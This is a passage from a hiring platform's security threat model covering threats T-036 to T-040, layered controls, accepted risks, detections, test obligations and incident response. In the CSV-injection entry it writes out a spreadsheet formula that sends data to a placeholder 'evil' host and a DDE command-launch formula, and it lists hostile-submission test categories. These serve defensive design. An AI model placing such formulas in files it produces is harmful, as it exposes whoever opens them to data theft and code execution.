*Action.* `H-170` (proposed) — TTLs of at most 300 seconds for media and 900 seconds for export artifacts, issued only in response to an authorised request that is itself audited; URL generation is logged with the requesting user but the signed URL is never logged; `packages/observability` redacts signature query parameters from spans and logs; the bucket has no anonymous read and no listing.

**T-036 · Object store · I · Proctor media accessed outside the review process**
*Scenario.* A curious staff user (actor A7) browses `proctor_media` rows for a candidate they know personally and views their webcam stills and ID photo, months after the hiring decision. Nothing is breached; the data is simply seen by someone with no reason to see it.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* `proctor_media.delete_after` is a mandatory column with the schema comment "enforce retention, do not keep biometrics forever", and `RETENTION_PROCTOR_MEDIA_DAYS=30` is canonical. `attempt.void` and `attempt.read` are distinct permissions. `audit_log` records privileged actions. The retention sweep in `apps/worker` is the mechanism that makes the 30-day limit real.
*Residual reasoning.* Medium. `attempt.read` is broad, and proctor media sitting behind the same permission as a score is wrong — the sensitivity is not comparable.
*Action.* `H-171` (proposed) — a distinct `proctor.review` permission gating media access, granted to the integrity review queue role only; every media view writes an `audit_log` row naming the actor and the media id; the retention sweep hard-deletes both the object and the row at `delete_after` and is monitored for failure; access after an attempt reaches `finalised` requires a stated reason recorded in the audit entry. Cross-references [`11-data-retention-and-dpia.md`](11-data-retention-and-dpia.md).

### 5.9 Supply chain, content and reporting

**T-037 · Supply chain · T · Compromise of a dependency or build step**
*Scenario.* A transitive npm dependency publishes a malicious post-install script that reads `process.env` at build time, or a typosquatted package lands through a careless `pnpm add`, and our own build ships an exfiltration channel with full production credentials.
*Likelihood* low per incident, but rising and industry-wide · *Impact* **critical** · *Residual* medium.
*Existing control.* [`02-HLD.md`](02-HLD.md) §7 requires no secrets in the repository, runtime injection only, dependency licence scanning in CI, and an SBOM per release. [ADR-001](04-ADRs.md#adr-001--permissive-licenses-only) and the CI licence gate (`H-007`) already give us a dependency inventory gate to build on. pnpm's lockfile pins resolutions and content hashes.
*Residual reasoning.* Medium. Inventory and licence gates are not compromise gates; a malicious version of a permissively licensed package passes the licence check cleanly.
*Action.* `H-172` (proposed) — CI runs a vulnerability audit and fails on high severity with a documented exception path; `pnpm` installs with `--frozen-lockfile` and post-install scripts disabled except for an explicit allow list; Dependabot or equivalent raises version bumps with the diff reviewed by a human; the SBOM is generated per release and retained; the build runs in an ephemeral runner with no production credentials in scope. Cross-references [`13-environments-and-release.md`](13-environments-and-release.md).

**T-038 · Question content · T/E · XSS through markdown in a question prompt**
*Scenario.* `question_versions.prompt_md` and `explanation_md` are markdown, rendered in both the staff console and the candidate app. An imported question — from a public dataset, a QTI file, or a customer's legacy bank — contains ``, or a markdown link with a `javascript:` URL. Rendered in the staff console, it runs with a staff session; rendered in the candidate app, it can read the attempt token.
*Likelihood* medium · *Impact* high · *Residual* medium.
*Existing control.* **Built 2026-09-20** ([ADR-022](04-ADRs.md)). `packages/markdown` parses author markdown into a closed union of node types and `packages/ui`'s `Markdown` maps that union to React elements. No stage produces a string of HTML, so there is nothing for a payload to survive in: raw HTML in a prompt arrives as text and renders as characters. Link and image destinations are the one remaining channel and `safeUrl` is the single gate on them — `http:`, `https:`, `mailto:` or a relative reference, checked after the normalisations a browser applies. Both front ends carry a Content-Security-Policy with `default-src 'none'`, no `'unsafe-inline'` and no `'unsafe-eval'`, injected into the page at build time; `frame-ancestors 'none'` is set by the reverse proxy, which is the only place a browser honours it.
*Residual reasoning.* **Low.** The argument is structural rather than a claim about a filter's completeness, which is what changed: every node is one the renderer knows, and no destination carries a scheme outside the list. `tests/fixtures/no-inner-html.test.ts` asserts that no front-end source assigns HTML from a string and that no workspace depends on a markdown or HTML-sanitising library — a sanitiser in the tree would mean somebody is generating markup again. What remains is `img-src 'self' https:`, which lets a remote image in an imported prompt act as a beacon; ADR-022 records that and what tightening it waits on.
*Action.* `H-173` — **done 2026-09-20**, with one deliberate deviation. The parser, the renderer, the URL gate, the CSP on both apps and the payload corpus in CI are built, and the authoring editor gained a markdown preview that reports refused content to the author. The refusal *at import* proposed above was not implemented: under ADR-022 raw HTML in a stored prompt is inert, `checkBankItem` runs on read, and refusing such a row would mean a question already in the bank could be exported and then not re-imported — breaking the losslessness the M0 exit criterion turns on. Surfacing it as a per-row warning belongs with `H-032`'s importer reporting. Applies equally to `scorecards.notes_md` and any other markdown field, through the same component.

**T-039 · Reporting · T · CSV injection in exports**
*Scenario.* A candidate enters `=HYPERLINK("https://evil/?d="&A1,"click")` — or `=cmd|'/c calc'!A1` — as their full name or as a short-answer response. A recruiter exports results to CSV, opens it in Excel, and the formula executes in the recruiter's spreadsheet with their local privileges.
*Likelihood* medium · *Impact* medium · *Residual* low.
*Existing control.* None today. `GET /questions/export` and the reporting exports in [`03-API-spec.md`](03-API-spec.md) §9 are the affected surface. Candidate free text reaching a staff spreadsheet is a normal, expected flow.
*Residual reasoning.* Low once neutralisation is implemented, because the fix is mechanical and total.
*Action.* `H-174` (proposed) — a single CSV writer in `packages/core-domain` used by every export path, prefixing any field beginning with `=`, `+`, `-`, `@`, tab or carriage return with a single quote, quoting all fields, and writing UTF-8 with a BOM; a test asserts the payloads above round-trip inert. Applies to candidate exports, question exports and the audit-log export alike.

**T-040 · API / grading · R · Score tampering by staff, and dispute repudiation**
*Scenario.* A hiring manager overrides a candidate's score to favour a referral, then denies it. Or, in the mirror case, a rejected candidate claims their score was altered and we cannot prove otherwise — which is the same failure from the other direction, and the one with legal weight.
*Likelihood* low · *Impact* high · *Residual* low.
*Existing control.* Strong by design. `attempt.grade` and `attempt.void` are distinct permissions. `answers` carries `manual_score`, `graded_by` and `graded_at` alongside `auto_score`, so a human override is structurally distinguishable from a machine score rather than overwriting it. `audit_log` captures `before`/`after` as `jsonb` with `actor_user_id`, `ip` and `at`; `score.override` and `attempt.void` are named as example actions in the schema. [`03-API-spec.md`](03-API-spec.md) §8: voiding requires a reason and is audited, and re-grading a finalised attempt creates a new grading run rather than mutating in place, with both scores recorded. [ADR-003](04-ADRs.md#adr-003--published-question-versions-are-immutable) and [ADR-004](04-ADRs.md#adr-004--materialise-the-served-question-set-per-attempt) together mean the exact served question set and version are reconstructable years later, which is what makes a dispute answerable at all. [ADR-011](04-ADRs.md#adr-011--defer-ai-features) keeps the whole scoring path explicable, since no step of it is a model output.
*Residual reasoning.* Low, provided the audit log is genuinely append-only. An audit log the application can update is not evidence.
*Action.* `H-175` (proposed) — `audit_log` is append-only at the database level: no `UPDATE` or `DELETE` grant to `DATABASE_APP_ROLE` or `DATABASE_JOB_ROLE`, enforced by grants and asserted by a test that attempts both and expects a permission error. `RETENTION_AUDIT_LOG_YEARS=7` governs retention, and the retention sweep must never delete audit rows for an attempt under active dispute.

---

**The mitigation ids in the implementing code were wrong, and were corrected 2026-09-20.** The
renumbering on 2026-09-17 fixed this document and the citations sitting next to a `docs/14`
reference. Nine more survived, in the files that *implement* these mitigations rather than name the
document: `csrf.ts` credited the candidate-bundle task for CSRF three times, `staff-session.ts`
credited the worker skeleton for session invalidation, and `refusal.ts`, `permissions.ts` and an
attempt-token test all credited the countdown hook for "answer `not_found` rather than `forbidden`
across a tenant boundary".

Every one of them named a real task, so the existence check passed; none was on a line mentioning
this document, so the attribution check never looked. `scripts/check-task-ids.mjs` now records that
blind spot in its own header, because the useful thing to know about a gate is what it does not
catch — the alternatives were tried and each was noisier than the bug.

## 6. Defence in depth by boundary

Each boundary should survive the failure of any single control. Where it would not, that is stated.

| Boundary | Layer 1 — prevent | Layer 2 — contain | Layer 3 — detect | Survives one failure? |
|---|---|---|---|---|
| TB-1 candidate → API | Scoped, short-lived attempt token; strict request schemas; rate limits | Token authorises one attempt only; server-side deadline guard on every write | Proctor events; autosave conflict metric; per-attempt request-rate anomalies | Yes |
| TB-2 code → sandbox | Kernel-enforced cgroup limits; no egress; read-only root | Ephemeral node, recycled; nothing valuable present | Sandbox timeout rate; exec node lifetime metrics | Yes |
| TB-3 sandbox → rest | Network policy denies all egress by default | **The node holds no credentials** — nothing to steal even with full control | Any outbound connection attempt from the exec subnet is an alert | Yes — this is the strongest boundary in the system |
| TB-4 staff session → org data | Session plus explicit permission per endpoint; CSRF tokens; MFA where configured | Permission granularity; separate export permission | Audit log; volume anomaly detection; admin notification on role change | Yes |
| TB-5 org → org | RLS policy on every tenant table | `app.current_org` set per connection checkout | Negative tests in CI; cross-org query alerts | Yes, except through TB-7 |
| TB-6 worker → exec | Adapter contract carries no question id and no expectations | Comparison happens in the worker after the sandbox exits | Adapter payload assertion test | Yes |
| TB-7 job role → DB | Per-table grants; `app.current_org` set where possible | Explicit allow list of cross-tenant jobs | Job-level audit trail | **No — this is the exception.** The job role exists to bypass RLS, so a bug here has no backstop. Highest-priority hardening (T-019). |
| TB-8 API → webhook consumer | URL validation and egress filtering | Dedicated egress path; no redirects; truncated delivery log | Delivery failure rate; destination-change audit events | Yes |
| TB-9 object store → browser | Short TTL; authorised request required to mint a URL | No anonymous read; no listing; retention deletion | Access audit per media view | Yes |

---

## 7. Non-negotiable controls

These do not get traded away under delivery pressure. Each has a reason that is about the product's validity, not about a checklist.

| # | Control | Why it cannot be softened |
|---|---|---|
| 1 | **Execution nodes hold no credentials and have no egress.** | It converts a sandbox escape — which we assume will happen — from a breach into an incident report. Every other sandbox control is secondary to this one. |
| 2 | **Test-case expectations never enter the sandbox.** | It is what makes the hidden test cases survive a total compromise of the execution tier. Moving comparison into the sandbox for performance would trade the crown-jewel asset for milliseconds. |
| 3 | **The server owns the clock, the scoring and the question selection.** ([ADR-006](04-ADRs.md#adr-006--the-server-owns-the-clock)) | Every client-side authority is an authority the candidate controls. There is no partial version of this. |
| 4 | **The served question set is materialised at start and never recomputed.** ([ADR-004](04-ADRs.md#adr-004--materialise-the-served-question-set-per-attempt)) | Without it, re-rolling works, disputes are unanswerable, and exposure counting is fiction. |
| 5 | **Correct-answer flags and reference solutions are stripped by an allow-list serialiser, with a test that fails the build.** ([`02-HLD.md`](02-HLD.md) §7) | The leak is silent, the asset is irreplaceable, and the only reliable guard is an automated one. |
| 6 | **RLS on every tenant table.** ([ADR-010](04-ADRs.md#adr-010--row-level-security-for-tenant-isolation)) | Application filtering works until one developer forgets one clause. Cross-tenant leakage is the failure that ends products. |
| 7 | **The audit log is append-only and covers every privileged action.** | An audit log that can be edited is worse than none, because it is believed. |
| 8 | **Proctoring emits advisory signals only. The system never auto-rejects, auto-voids or down-scores.** ([ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions)) | The signals are weak, the error modes are biased against candidates with disabilities and against some skin tones, and automated adverse action on weak signals is both unfair and a serious legal exposure. This is a product constraint, not a setting. |
| 9 | **No AI anywhere in the scoring or decision path.** ([ADR-011](04-ADRs.md#adr-011--defer-ai-features)) | An unexplainable score is an indefensible score. This is also a regulatory position, covered in [`16-ai-usage-policy.md`](16-ai-usage-policy.md) and [`05-licensing-and-compliance.md`](05-licensing-and-compliance.md) §3. |
| 10 | **An infrastructure failure never silently scores a candidate as zero.** ([`02-HLD.md`](02-HLD.md) §9) | It is a security property as much as a reliability one: a failure mode that damages a candidate is a failure mode someone will learn to trigger. |

---

## 8. Out of scope, and accepted

Accepting a risk is not the same as ignoring it. Each item below is a risk we have decided not to engineer against, with the reason acceptance is the correct engineering judgement rather than negligence. Each is also a statement we are prepared to make to a customer, which is the test of whether an acceptance is honest.

**A determined candidate with a paid proxy sitter in a non-proctored round (T-012).**
There is no browser-deliverable control that distinguishes a candidate from a competent sitter operating the candidate's own machine with the candidate's cooperation. Webcam checks are defeated by sitting beside the camera; keystroke biometrics are defeated by the candidate typing what they are told; device fingerprinting is defeated by using the candidate's device. Accepting this is correct because the alternative is worse: building controls that *appear* to prevent it produces false confidence, and enforcing them produces false accusations against candidates with poor connections, unusual setups, or disabilities. The real mitigation is process — an async round is a filter, and a human-run live round against the same skills confirms it. We state the verification level of every result rather than implying one we do not have.

**Screen capture of question content by a phone camera (T-030).**
Not preventable, at all, ever. Accepting this is correct because the effort has a zero ceiling, and because there is a mitigation that does work on a different axis: assume content leaks, measure exposure per question version, and retire questions before their leaked lifetime matters. That converts an unwinnable prevention problem into a bounded authoring-capacity problem, which is a problem we can budget for.

**Collusion between candidates in the same exam window.**
Two candidates in the same room, or the same group chat, sharing answers. Randomised draws from a large pool ([ADR-004](04-ADRs.md#adr-004--materialise-the-served-question-set-per-attempt), `section_rules`) reduce the overlap between two candidates' question sets, which limits the value of collusion without eliminating it. Detection via answer-similarity analysis is possible and is listed in §9 as a candidate detection, but it produces a signal for a human under [ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions), never an automatic action.

**A candidate using an AI assistant during a non-proctored round.**
Deliberately out of scope as a *violation*. [ADR-011](04-ADRs.md#adr-011--defer-ai-features) notes that recording a candidate's own AI usage during live rounds is acceptable as observable evidence, "since prompting is now part of real engineering work". The product position is that assessments should be designed so that AI assistance is either explicitly allowed and observed, or made irrelevant by the question design — not that it is banned and unenforceably policed. This is a product design obligation on question authors, tracked in [`01-PRD.md`](01-PRD.md), not a security control.

**A malicious customer administrator within their own organisation.**
An `org.admin` can export their own organisation's data, read their own candidates' PII, and configure their own webhooks. That is the role. Our obligation is tenant isolation (they cannot reach another organisation), audit (their actions are recorded), and retention limits (they cannot keep biometrics indefinitely) — not preventing a customer from using their own data.

**Compromise of the customer's own identity provider.**
If a customer's IdP is compromised, staff sessions in our system follow. We validate assertions correctly (T-015) and audit everything, but we cannot be more trustworthy than the identity source the customer chose.

**Nation-state-grade attackers, zero-day exploitation of the kernel, and hardware side channels.**
Out of scope for a self-hosted hiring platform's threat model. The exec-node isolation (T-002) limits the value of a kernel zero-day to the exec node itself, which is the appropriate level of investment.

---

## 9. Abuse-case monitoring and detections

Prevention fails silently; detection is what tells you it did. These detections belong in the observability stack and their runbooks belong in [`12-observability-and-runbooks.md`](12-observability-and-runbooks.md). Each is written as a signal for a human, consistent with [ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions) — **none of them takes an automatic action against a candidate**.

| Detection | Signal | Threats | Response owner |
|---|---|---|---|
| Exec-tier egress attempt | Any outbound connection from the exec subnet | T-001, T-002, T-003 | On-call — page. Treat as a live compromise until disproven. |
| Sandbox timeout rate spike | `sandbox_timeout_rate` above baseline for a language | T-004 | On-call — investigate; may be a hostile campaign or a broken question. |
| Output truncation rate | Submissions hitting `EXEC_MAX_OUTPUT_BYTES` | T-005 | Daily review. |
| Per-case timing variance | Unusual spread of per-case runtimes within one attempt | T-006 | Weekly review; correlate with the candidate's submission count. |
| Cross-attempt id probing | `not_found` rate on candidate routes above a per-attempt threshold | T-018 | Alert. A candidate hitting many unknown ids is enumerating. |
| Invitation redemption failures | Redemption failures per IP approaching the 20/hour limit | T-011 | Alert. |
| Concurrent attempt-token origins | Same attempt token used from two IPs or user-agents within a short window | T-010, T-012 | Severity-2 proctor signal; surfaced to the reviewer with evidence. Never an auto-void. |
| Staff bulk-read volume | Question or candidate rows read by one user far above their 30-day baseline | T-016, T-031 | Alert to org admins and to us. |
| Export frequency and size | Export jobs per org per day, and row counts | T-016, T-031 | Daily digest to org admins. |
| Role and permission changes | Any write to `user_roles`, `user_role_permissions`, `user_role_assignments` | T-021 | Immediate notification to all org admins. |
| Webhook destination changes | Any change to a webhook URL, plus first delivery to a new host | T-032, T-033 | Notification to org admins. |
| Webhook delivery to a rejected address | Blocked SSRF candidate | T-032 | Alert — a legitimate customer does not configure a metadata endpoint. |
| Question exposure threshold | Exposure count per `question_version_id` crossing the configured threshold | T-029 | Retirement workflow for the bank owner. |
| `p_value` discontinuity | Abrupt rise in `question_stats.p_value` for a version | T-029, T-030 | Bank owner review — the clearest available leak signal. |
| Answer-similarity clustering | Near-identical free-text or code submissions across attempts in a window | Collusion (§8) | Human reviewer, with both submissions attached as evidence. |
| Autosave out-of-order rejections | Sequence-conflict rate above zero | T-026 | Investigate — network problem or replay. |
| Post-deadline write rejections | Rate of `attempt_expired` on write paths | T-027 | Weekly review; a spike suggests a client bug or a probing campaign. |
| Proctor media access | Every read of a `proctor_media` object | T-036 | Monthly access review against the integrity queue. |
| Audit-log write failures | Any failure to append | T-040 | Page. An unrecorded privileged action is a control failure. |

Two rules govern how these are used. **A detection that fires and is never reviewed is worse than no detection**, because it creates a record that we knew. And **a detection about a candidate produces evidence for a human, never an outcome** — the reviewer sees the signal, the attached evidence, and the attempt, and decides.

---

## 10. Security-testing obligations

These flow into [`06-testing-strategy.md`](06-testing-strategy.md) and are listed here so the threat model and the test plan cannot drift apart. Each names the threats it retires.

| Obligation | Form | Threats | Gate |
|---|---|---|---|
| Hostile-submission corpus | One suite per supported language: egress, fork bomb, memory bomb, CPU spin, sleep, output flood, filesystem walk, environment dump | T-001, T-003, T-004, T-005, T-008 | Blocks M2 exit |
| Exec-node isolation assertion | Boot the production-shaped stack; from inside an exec container assert no credentials, no DNS, no TCP to any internal service, no metadata endpoint | T-002 | CI on every infra change |
| Adapter payload assertion | The `execute()` payload contains no question id, no expectations, no org id | T-008 | Unit, every build |
| Candidate-response leak test | Property test over every candidate-facing body and SSE frame for `is_correct`, `solution_code`, `expected_stdout`, `pattern`, `checker_code`, `fixture_sql` | T-023, T-024, T-007 | **Release gate** |
| Authorisation matrix | Every route × every actor role × an id belonging to another attempt and another org | T-018, T-021 | Blocks M1 exit, extended each milestone |
| RLS negative tests | Per tenant table, on select, update and delete — existing `H-017` | T-018 | Blocks M0 exit |
| Job-role tenancy tests | Per job type, asserting no cross-tenant read or write | T-019 | Blocks M1 exit |
| Schema strictness test | Every scoring and status column posted to every candidate-facing `PATCH`, expecting rejection | T-022 | Every build |
| Clock-skew test | Client clock skewed ±6 hours; behaviour identical | T-025 | Blocks M1 exit |
| Deadline-boundary test | Write at deadline ±1s, with and without the sweep having run, with and without accommodations | T-027 | Blocks M1 exit |
| Idempotent start test | Concurrent `POST /attempt/start` and concurrent redemption against `max_attempts` | T-028 | Blocks M1 exit |
| XSS corpus | `packages/markdown/src/xss-corpus.test.ts` — payloads parsed and checked against the browser's own URL parser, plus the structural assertions in `tests/fixtures/no-inner-html.test.ts` and `tests/fixtures/csp.test.ts` | T-038 | Every build — built 2026-09-20 |
| CSV neutralisation test | Formula payloads round-trip inert through every export path | T-039 | Every build |
| SSRF corpus | Webhook URL validation against loopback, link-local, RFC 1918, metadata, rebinding and redirect cases | T-032 | Blocks M1 exit |
| Append-only audit test | `UPDATE` and `DELETE` on `audit_log` fail with a permission error under both application roles | T-040 | Blocks M0 exit |
| Dependency and secret scanning | Vulnerability audit, licence gate (`H-007`), secret scanning on every commit and in history | T-037 | Every build |
| External penetration test | Third-party, scoped to the candidate and staff surfaces plus the execution tier | All | Before the first production exam window; date `TBD - owner: engineering lead, decide by 2026-11-27` |

---

## 11. Secure development requirements

**Dependency management.** `pnpm` with `--frozen-lockfile` in CI. Post-install scripts disabled except for an explicit allow list. A vulnerability audit on every build, failing on high severity with a documented, time-boxed exception path. The licence gate from [ADR-001](04-ADRs.md#adr-001--permissive-licenses-only) stays as-is: MIT, Apache-2.0, BSD-2, BSD-3, ISC, MPL-2.0, PostgreSQL, Unlicense and CC0 only; GPL, static LGPL, AGPL, SSPL, BSL/BUSL and Commons Clause fail the build.

**SBOM.** Generated per release and retained for the life of the release plus the audit-log retention period. Required by [`02-HLD.md`](02-HLD.md) §7 and referenced from [`13-environments-and-release.md`](13-environments-and-release.md).

**Secret management.** No secrets in the repository, ever. As of 2026-09-17 this is enforced by two repository gates in CI — a format scan for provider tokens (`.github/workflows/security.yml`) and `scripts/check-secrets.mjs`, which fails on any committed password that could pass for a real one. **GitHub-native secret scanning and push protection are not enabled on this repository**; the API reports them disabled. Until an administrator enables them there is no scan of history and no block at push time — only the CI gates, which run after the push. Earlier versions of this section described history scanning as in place; it was not. TBD — owner: security lead, enable both by 2026-09-24. Secrets are injected at runtime and validated at boot by `packages/config`, which fails fast if one is missing or malformed. `SESSION_SECRET`, `TOKEN_PEPPER` and the webhook signing secrets have documented rotation procedures; `WEBHOOK_SIGNING_SECRET_ROTATION_DAYS` makes webhook rotation automatic with an overlap window. Logs are redacted by the `packages/observability` serialiser, with an explicit deny list covering tokens, signed URL query parameters, `Authorization` headers and cookie values.

**Code review rules.** Ordinary changes follow the normal review in [`../CONTRIBUTING.md`](../CONTRIBUTING.md). Four paths require a second reviewer and an explicit statement in the pull request of what was checked:

1. **Authentication and session code** — `packages/auth` in its entirety, and any route that mints, validates or renews a token, ticket or cookie.
2. **Serialisation on candidate-facing paths** — any change to a candidate response shape, including SSE frames. The reviewer confirms the allow-list serialiser is used and the leak test covers the new field.
3. **Anything touching `DATABASE_JOB_ROLE`, RLS policies or `app.current_org`** — the weakest boundary (TB-7) gets the strongest review.
4. **The execution adapter and anything that constructs its payload** — the reviewer confirms no question id, no expectation and no credential can reach the sandbox.

A pull request that changes a control cited in §5 must update this document in the same pull request. That is the only mechanism that keeps a threat model true, and it is cheap to enforce.

**Defaults.** New tenant tables are created with RLS enabled in the same migration, not in a follow-up. New endpoints require an explicit permission key; a route with no permission check fails a CI lint rather than defaulting to authenticated-is-enough.

---

## 12. Incident response

The full runbooks live in [`12-observability-and-runbooks.md`](12-observability-and-runbooks.md); this section names the classes and the first decision in each, because the first decision is the one made under pressure.

| Class | First action | Then |
|---|---|---|
| **Suspected sandbox escape** | Drain and destroy the exec node group; do not reboot, do not reuse. Preserve one node's disk image for analysis. | Grading pauses; queued submissions wait; attempts stay valid ([`02-HLD.md`](02-HLD.md) §9). Rebuild from the immutable image. No candidate is scored zero. |
| **Suspected question-bank leak** | Identify the affected question versions and freeze them from new draws. Do not delete — the exposure and statistics history is the evidence. | Retire and replace; re-examine `p_value` history for the leak window; assess whether affected attempts need re-running. |
| **Cross-tenant data exposure** | Stop the affected code path — feature flag or rollback — before investigating. | Determine the scope from `audit_log` and query logs; notify affected organisations; this is a notifiable personal-data breach in most cases. Follow [`11-data-retention-and-dpia.md`](11-data-retention-and-dpia.md). |
| **Compromised staff session** | Invalidate all sessions for the affected user and the org's admins; force re-authentication. | Reconstruct activity from `audit_log`; check export jobs and webhook configuration changes specifically. |
| **Webhook misdirection** | Disable the webhook; do not just correct the URL. | Determine what was delivered to the wrong destination from `GET /webhooks/{id}/deliveries`; rotate the signing secret; notify the customer. |
| **Integrity incident affecting a live exam window** | Preserve the window. Never void attempts in flight. | Collect evidence; let the attempts complete; route affected attempts to `under_review` for a human decision afterwards. [ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions) applies with full force under pressure — this is exactly when it would be tempting to soften it. |
| **Dependency compromise** | Pin to the last known-good version and rebuild; rotate every credential the build environment could have observed. | Audit the SBOM diff for the affected release range; disclose to customers if a released artifact was affected. |

Two standing rules. **Preserve the candidate's attempt.** Almost every incident response option that damages a candidate's attempt is the wrong one; the attempt can always be reviewed later, and cannot be un-voided in the candidate's memory. **Write the audit entry first.** An incident response action taken without an audit record is indistinguishable, afterwards, from the attack.

---

## 13. Review cadence

**Next scheduled review: 2026-11-27**, the M2 exit date — chosen because M2 is when the execution tier becomes real and roughly half this register is about the execution tier. Reviews thereafter align with milestone exits: 2026-12-24 (M3 exit, adding the collaboration and LiveKit surfaces) and 2027-01-30 (M4 exit, adding proctoring, Safe Exam Browser and biometric-adjacent media, which is the largest single expansion of the attack and compliance surface in the plan).

A review means walking the register entry by entry, confirming each cited control still exists in the form cited, re-rating likelihood and impact against what the last milestone actually shipped, and closing or re-dating every action. An unchanged document after a milestone is a sign the review did not happen, not a sign nothing changed.

**Trigger events forcing an early review, regardless of the schedule:**

1. Any change to the execution tier's isolation model — a Piston version upgrade, a new language, a container-runtime change, or any move of the exec nodes' network position.
2. Any move of test-case comparison, checker execution or expectation handling toward the sandbox.
3. A new authentication mechanism, credential type or token — including any new WebSocket, SSE or long-lived connection surface.
4. The first third-party integration that receives candidate data outside the webhook contract.
5. Any relaxation of RLS, any new consumer of `DATABASE_JOB_ROLE`, or any new database role.
6. A confirmed incident in any class in §12, reviewed within five working days of resolution.
7. A published vulnerability in Piston, PostgreSQL, Valkey, Fastify, Better Auth, Drizzle, Yjs or LiveKit rated high or critical.
8. Onboarding the first customer in a jurisdiction not covered by [`05-licensing-and-compliance.md`](05-licensing-and-compliance.md) §3, or the first use of the platform for a certification with a legal or regulatory consequence for the candidate.
9. Any proposal — from any direction, under any delivery pressure — to soften [ADR-007](04-ADRs.md#adr-007--proctoring-produces-signals-never-decisions) or [ADR-011](04-ADRs.md#adr-011--defer-ai-features). Such a proposal requires a new ADR superseding the existing one and a full review of this document, not a settings change.

**Owner:** `TBD - owner: engineering lead, decide by 2026-09-21`. The owner is accountable for the review happening, not for performing every action in it.
